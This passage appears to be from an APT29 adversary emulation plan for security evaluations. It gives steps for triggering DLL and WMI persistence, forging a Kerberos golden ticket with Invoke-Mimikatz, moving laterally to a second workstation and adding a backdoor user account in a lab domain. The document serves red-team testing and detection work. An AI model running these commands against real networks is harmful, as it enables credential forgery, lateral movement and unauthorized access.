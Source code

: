 #### Procedures

##### 20.A - Persistence Execution ([T1085](https://attack.mitre.org/versions/v6/techniques/T1085/) / [T1218.011](https://attack.mitre.org/techniques/T1218/011/), [T1084](https://attack.mitre.org/versions/v6/techniques/T1084/) / [T1546.003](https://attack.mitre.org/techniques/T1546/003/))

1. Execute `restart-computer -force`
2. Existing 2 callbacks should die
3. RDP and login to initial victim once it reboots
4. Persistence mechanisms should fire on login (1 for DLL, 1 or more for WMI event subscription)

**Note:** You may need to repeat login process a few times (close and reopen RDP session) for WMI execute to fire

##### 20.B - Use Alternate Authentication Material: Pass the Ticket ([T1097](https://attack.mitre.org/versions/v6/techniques/T1097/) / [T1550.001](https://attack.mitre.org/techniques/T1550/001/), [T1550.003](https://attack.mitre.org/techniques/T1550/003/))

1. Interact with the SYSTEM PS callback (from WMI)
2. Execute `klist purge`
3. Load `Invoke-Mimikatz.ps1` (available at <https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1>)
4. Execute `invoke-mimikatz -command '"kerberos::golden /domain:dmevals.local /sid:[SID] /rc4:[NTLM HASH] /user:mscott /ptt"'` using the SID and NTLM values from earlier
5. Execute `klist` and confirm ticket is in cache
6. Execute `Enter-PSSession [hostname of second workstation in domain]`
7. Execute `Invoke-Command -ComputerName [hostname of second workstation in domain] -ScriptBlock {net user /add toby "pamBeesly<3"}`

#### Cited Intelligence

* Open Invitation Contributors: Microsoft, SentinelOne

* APT29 have used Kerberos ticket attacks for lateral movement and has created accounts to log in.<sup> [5](https://www.slideshare.net/MatthewDunwoody1/no-easy-breach-derby-con-2016),[7](https://www.fireeye.com/blog/products-and-services/2019/02/state-of-the-hack-no-easy-breach-revisited.html) </sup>

---

### Acknowledgements

#### Special thanks to the following public resources

* Atomic Red Team (<https://github.com/redcanaryco/atomic-red-team>)
* Mimikatz (<https://github.com/gentilkiwi/mimikatz>)
* Pinvoke (<http://www.pinvoke.net>)
* PoshC2 (<https://github.com/nettitude/PoshC2>)
* POSHSPY (<https://github.com/matthewdunwoody/POSHSPY>)
* PowerSploit (<https://github.com/PowerShellMafia/PowerSploit>)
* PSReflect-Functions (<https://github.com/jaredcatkinson/PSReflect-Functions>)
* State of the Hack S2E01: #NoEasyBreach REVISITED (<https://www.fireeye.com/blog/products-and-services/2019/02/state-of-the-hack-no-easy-breach-revisited.html>)
* Use PowerShell to Interact with the Windows API (<https://devblogs.microsoft.com/scripting/use-powershell-to-interact-with-the-windows-api-part-1>)
* Yet another sdclt UAC bypass (<http://blog.sevagas.com/?Yet-another-sdclt-UAC-bypass>)

---